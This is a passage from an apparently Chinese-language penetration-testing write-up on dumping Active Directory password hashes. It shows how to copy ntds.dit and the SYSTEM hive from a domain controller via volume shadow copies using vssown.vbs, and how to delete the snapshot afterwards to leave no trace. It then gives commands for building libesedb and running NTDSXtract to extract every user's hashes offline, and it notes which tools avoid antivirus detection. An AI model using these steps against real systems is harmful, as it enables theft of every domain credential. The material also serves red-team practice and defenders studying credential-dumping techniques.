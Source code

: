 注意的两点是：a.WORK\_PATH 和你拷贝的地方要相同

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjPiaLytzG2EdZV4b6loGIjAceVv031snvgn8IRO9iaUCibsRISouGDoVWQ/640?wx_fmt=png)

b. 附件中的 QuarkPwDump 在 win08 上面运行报错, 另外修改版可以, 所以实战前还是要测试一下

#####vssown.vbs + libesedb + NtdsXtract 上面的 QuarkPwDump 是在 win 上面分析 ntds.dit, 这个是 linux 上面的离线分析 优点是能获取全部的用户, 不用免杀, 但是数据特别大, 效率低, 另外用 vssown.vbs 复制出来的 ntds.dit 数据库无法使用 QuarksPwDump.exe 读取

hash 导出：https://raw.githubusercontent.com/borigue/ptscripts/master/windows/vssown.vbs

最后需要 copy 出 system 和 ntds.dit 两个文件

```
c:\\windows\\system32\\config\\system
c:\\windows\\ntds\\ntds.dit
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjUGXLicO1L4IcgOWLfavf3Y6IkjsuulraNuxcUYNnu2u2Q1ecSYYwg0A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjAvlZd9Oa42wxs8lJOWCkCd4Qecbf9TvlAOW9aPXzteVv0Ilqj5YQ0A/640?wx_fmt=png)

记得一定要 delete 快照！！！

```
cscript vssown.vbs /delete \*
```

本地环境搭建 + 分析：

```
libesedb的搭建:
wget https://github.com/libyal/libesedb/releases/download/20151213/libesedb-experimental-20151213.tar.gz
tar zxvf libesedb-experimental-20151213.tar.gz
cd libesedb-20151213/
./configure
make
cd esedbtools/
(需要把刚刚vbs脱下来的ntds.dit放到kali)
./esedbexport ./ntds.dit
mv ntds.dit.export/ ../../
ntdsxtract工具的安装:
wget http://www.ntdsxtract.com/downloads/ntdsxtract/ntdsxtract\_v1\_0.zip
unzip ntdsxtract\_v1\_0.zip
cd NTDSXtract 1.0/
(需要把刚刚vbs脱下来的SYSTEM放到/root/SYSTEM)
python dsusers.py ../ntds.dit.export/datatable.3 ../ntds.dit.export/link\_table.5 --passwordhashes '/root/SYSTEM'
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjibficcSHn6cHHAOT8QvcvE8ZYsicWetv5n8YnCEia1JpuQnmHbiavjQPD1Q/640?wx_fmt=png)

**ntdsdump laterain 的推荐**：http://z-cg.com/post/ntds\_dit\_pwd\_dumper.html 是 zcgonvh 大牛根据 quarkspwdump 修改的，=。=，没找到和 QuarkPwDump 那个修改版的区别 获取 ntds.dit 和 system.hiv 之后 (不用利用那个 vbs 导出, 好像并不能分析出来)  

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjpcMdlQibluZayuYfyiaZNibdMaUZQAwh2WyqnAHxz8hJTOpZHqY2icicvaA/640?wx_fmt=png)
